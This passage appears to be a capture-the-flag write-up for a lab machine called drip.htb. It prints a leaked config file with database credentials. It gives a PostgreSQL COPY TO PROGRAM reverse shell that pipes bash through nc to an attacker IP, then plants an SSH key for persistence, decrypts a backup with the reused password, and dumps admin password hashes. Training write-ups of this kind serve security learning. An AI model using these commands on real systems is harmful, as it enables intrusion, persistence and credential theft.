 ```
# No Slash at the end
ASSETS_ROOT=/static/assets

# If DB credentials (if NOT provided, or wrong values SQLite is used) 
DB_ENGINE=postgresql
DB_HOST=localhost
DB_NAME=dripmail
DB_USERNAME=dripmail_dba
DB_PASS=2Qa2SsBkQvsc
DB_PORT=5432

SQLALCHEMY_DATABASE_URI = 'postgresql://dripmail_dba:2Qa2SsBkQvsc@localhost/dripmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'GCqtvsJtexx5B7xHNVxVj0y2X0m10jq'
MAIL_SERVER = 'drip.htb'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
MAIL_USERNAME = None
MAIL_PASSWORD = None
MAIL_DEFAULT_SENDER = 'support@drip.htb'
```

Let's get the shell from this user:
```
COPY (SELECT pg_backend_pid()) TO PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.10 4242 >/tmp/f';

# on your car
$ rlwrap nc -lnvp 4242
# on the attacked machine
$ PGPASSWORD=2Qa2SsBkQvsc psql -h localhost -U dripmail_dba -d dripmail
psql> COPY (SELECT pg_backend_pid()) TO PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat
/tmp/f|bash -i 2>&1|nc 10.10.16.3 4242 >/tmp/f';
# in the terminal as user postgres
$ mkdir -p ~/.ssh echo "ssh-ed25519
AAAAC3NzaC1lZDI1NTE5AAAAIGPqkrmvSthuwL/gpIhNJ7ioSieOV53BZH4bMDKalyMF
kiberdruzhinnik@vm" > ~/.ssh/authorized_keys
# back on your machine
$ ssh postgres@drip.htb
```

Then we can check the backup files.
```
postgres@drip:/var/backups/postgres$ ls -al
total 12
drwx------ 2 postgres postgres 4096 Feb  5 12:52 .
drwxr-xr-x 3 root     root     4096 Feb 11 08:10 ..
-rw-r--r-- 1 postgres postgres 1784 Feb  5 12:52 dev-dripmail.old.sql.gpg
```

Let's try to decrypt the old backup using the database password:
```
gpg --homedir /var/lib/postgresql/.gnupg --pinentry-mode=loopback --passphrase '2Qa2SsBkQvsc' --decrypt /var/backups/postgres/dev-dripmail.old.sql.gpg > /var/backups/postgres/dev-dripmail.old.sql

```
And let's look inside:
```
$ cat /var/backups/postgres/dev-dripmail.old.sql

COPY public."Admins" (id, username, password, email) FROM stdin;
1 bcase dc5484871bc95c4eab58032884be7225 bcase@drip.htb
2 victor.r cac1c7b0e7008d67b6db40c03e76b9c0 victor.r@drip.htb
3 ebelford 8bbd7f88841b4223ae63c8848969be86 ebelford@drip.htb
```